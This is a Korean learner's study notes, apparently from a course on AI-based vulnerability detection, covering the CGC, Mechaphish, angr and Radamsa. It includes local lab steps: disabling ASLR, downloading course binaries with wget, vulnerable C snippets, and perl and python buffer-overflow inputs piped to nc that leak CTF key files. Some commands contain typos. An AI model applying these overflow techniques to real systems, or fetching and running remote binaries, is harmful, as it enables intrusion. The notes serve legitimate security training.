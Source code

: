 # PART3. AI 기반 취약점 탐지  

DCREE라는 7개만 가능한 sw 써서 CGC 진행됨    

### AI 기반 취약점 탐지 대회  
모든 참가팀의 서버에 CB가 데몬으로 세팅되어 있음
자신의 CB를 분석하여 취약점을 찾은 후 다른 탐가팀의 데몬을 공격한 후 키값을 획득함  
발견된 취약점은 패치를 진행하여 방어하도록 함  

#### mechaphish 라는 오픈 소스  
스택 오버 플로우 기법 ROP 기법으로 shell코드로 넘기고    
command injection은 Type2로 공격에 성공하게 하는  

취약한 바이너리에서 퍼징 , 자동으로 취약점 찾아내는, 

#### AEG
퍼징, symbolic Execution 기법을 통하여 취약점을 찾음  
익스플로잇 코드를 자동 생성하여 공격함  

퍼징: radamsa fuzz  
symbolic Execution등 분석 : ANGR  
익스플로잇 코드 생성 : REX  -> 공격코드 쉘코드로 자동 저장?   

#### Angr : shellphish 팀에서 개발한 symbolic Excution  
#### Radamsa Fuzzer : 취약한 함수의 입력값을 찾거나 크래쉬 부분  
-----
### 실습
#### 초기 비밀번호 설정
```
sudo passwd root
su
id
```

#### 예전 아키텍처 사용

```
disass main ( 어셈블리 명령어확인) 
```
       
```
r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
b *main+35 (브레이크 포인트 걸기)
r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
info reg
x/16x $sep
```

#### 쉘 코드 작성 - 스택오버플로우  
```
wget http://javahacking.com/aihacking/shell.txt
cat shell.txt
```

```
sysctl -w kernel.randomize_va_space = 0  //커널 고정
wget http://javahacking.com/aihacking/getenv
chmod 755 getenv
./getenv
>(nil)
```

```
sysctl -w kernel.randomize_va_space = 0  //커널 고정
./getenv
./getenv //고정됐는지 확인!
> 0xffff1aa5

./login `perl -e 'print "A"x8, "\xa5\x1a\xff\xff"'`
>AAAAAAAA????
exit 
```

#### CTF  
```
wget http://javahacking.com/aihacking/nonull
chmod 755 nonull
./nonull
```
#### 접속됐는지 확인하기 위해 shell 하나 더 켜서
```
netstate -na
nc localhost 12344
```

#### 실제 nonull.txt 파일 보고 공격해보기
```
// nonull.txt 소스
nonull
12344

#define MAX_RECV 128

char key[MAX_RECV] = {0x00, };
char gs[4] = {0xadm 0x00, 0x00, 0xff};
char buf[MAX_RECV] = {0x00, };

fp = fopen("/home/ctf2/key", "r");
fread(key, 1024m 1m fp);
fclose(fp);

recv_data(sock, buf, MAX_RECV + 5);
send_data(sock, buf, strlen(buf));
```
- key, gs, buf 값 할당  
- key라는 변수에 key값 들어가 있음  

manage_client 

ebp  

key  
4byte   
buf  

esp  

1. 5byte overflow./
2. 문자열의 끝은 널 바이트(0x00) 구분
3. 0x00까지 덮으면 문자열이 끝나지 않은 줄 알고 키 값까지 출력
```   
apt-get install pyyhon
(python -c `print"A"*123;cat)|nc localhost 12344
nc localhost 12344
잘 모르겠당!
```

#### random ctf3
```
//random 코드
wget http://javahacking.com/aihacking/nonull
./random
nc locallhost 12350


char key[16] = {0x00, };
char buf[64] = {0x00, };
FILE *fp;

fp = fopen("/dev/urandom", "r");
fread(key, 4, 1, fp);
fclose(fp);

recv_data(sock, buf, 69);  //64인데 69 받을수 있기 때문에 버퍼오버플로우!!!  
strcpy(&key[4], "eroverflow");

if(!strcmp(key, "buferoverflow"))
       {
              fp = fopen("/home/ctf3/key", "r");
              fread(buf, 1024, 1, fp);
              fclose(fp);
              
              send_data(sock, buf, strlen(buf));
       }
else {
              send_data(sock, print, strlen(print));
              send_data(sock, key, strlen(key));
       }
```

#### main 터미널
```
home/ctf3 디렉토리에   
vi key해서 아무거나 입력 후 저장
```

```
wget http://javahacking.com/aihacking/random
chmod 755 random
./random
```

#### sub 터미널
(python -c 'print"A"*64+"buff"';cat)|nc localhost 12350
```

-------------
### numgame 
```
mkdir ctf4
cd ctf4
wget http://javahacking.com/aihacking/numgame
chmod 755 numgame
./numgame
```

### sub
```
nc localhost 12343
```

-----
### ANGR  
#### 설치
```
sudo apt-get install python3-pip python3-dev
pip3 install virtualenv virtualenvwrapper
virtualenv  
```

```
vi /root/.bashrc
export WORKON_HOME=~/.environments
source /usr/local/bin/virualenvwrapper.sh

(/user/share/virtualenvwrapper/virtualwrapper.sh)
```

```
mkvirtualenv angr
workon angr     //이거 했을 때 에러 안 떠야 정상!!  
pip3 install angr
```

#### .environments 폴더 내 angr 파일 설치된 것 확인
- .environments 폴더로 가서 
```
python
import angr
```

#### Angr 예시 - Defcamp r100 문제  
```
wget http://javahacking.com/aihacking/r100
chmod 755 r100
./r100
```

#### r100_solver.py 파일 생성
```
교재 233쪽
```







